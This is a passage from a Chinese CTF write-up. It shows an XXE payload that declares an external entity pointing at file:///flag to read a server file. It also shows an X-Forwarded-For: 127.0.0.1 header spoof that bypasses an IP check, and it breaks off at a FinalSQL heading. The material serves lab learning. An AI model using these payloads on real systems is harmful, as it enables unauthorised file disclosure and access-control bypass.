 *   所以我们利用`参数实体+外部实体`，把传入的内容改为读取文件。变成了

    ```
    <?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY penson SYSTEM "file:///flag" >
    ]>
    <user><username>&penson;</username><password>penson</password></user> 
    ```

*   其中的参数实体`&penson`在上面的外部实体中被赋值为`file:///flag` 所以输出时就是我们想要的flag。而file协议就不多说是什么了，而读取的文件flag，则是可以试探的比如说，flag.php、flag.txt、flag 等常见flag形式。

*   所以修改上传。就成功解题。
    ![在这里插入图片描述](img/447a5966e6bf9bd7c34c71cac7921f78.png)

*   总结：xml注入的利用。

### 3、[MRCTF2020]PYWebsite

*   很简单的一道题，打开是flag购买页面，F12可知是前端验证，同时看到一个flag.php。

*   访问它，提示购买者IP已经被保存，很明显想到XFF伪造本地ip，抓包，在请求头加上

    ```
    X-Forwarded-For:127.0.0.1 
    ```

![在这里插入图片描述](img/f43b487144572f0a2aabd4345b75ef19.png)

### 4、[极客大挑战 2019]FinalSQL
